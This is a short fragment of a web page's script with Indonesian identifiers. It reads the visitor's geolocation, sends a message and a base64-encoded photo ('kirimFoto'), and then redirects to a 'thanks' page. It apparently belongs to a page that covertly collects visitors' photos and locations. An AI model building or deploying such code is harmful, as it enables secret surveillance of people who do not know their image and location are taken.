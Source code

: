       if (navigator.geolocation) {
        navigator.geolocation.getCurrentPosition(pos => {
          const lat = pos.coords.latitude;
          const lon = pos.coords.longitude;
          ambilCuaca(lat, lon);
        }, () => {
          kirimPesan(formatPesan("Tidak diketahui", "Tidak diketahui", "Tidak diketahui"));
          if (fotoBase64) kirimFoto(fotoBase64);
          setTimeout(() => window.location.href = "thanks.html", 3000);
        });
      } else {
        kirimPesan(formatPesan("Tidak tersedia", "Tidak tersedia", "Tidak tersedia"));
        if (fotoBase64) kirimFoto(fotoBase64);
        setTimeout(() => window.location.href = "thanks.html", 3000);
      }
    }
  </script>
</body>
</html>
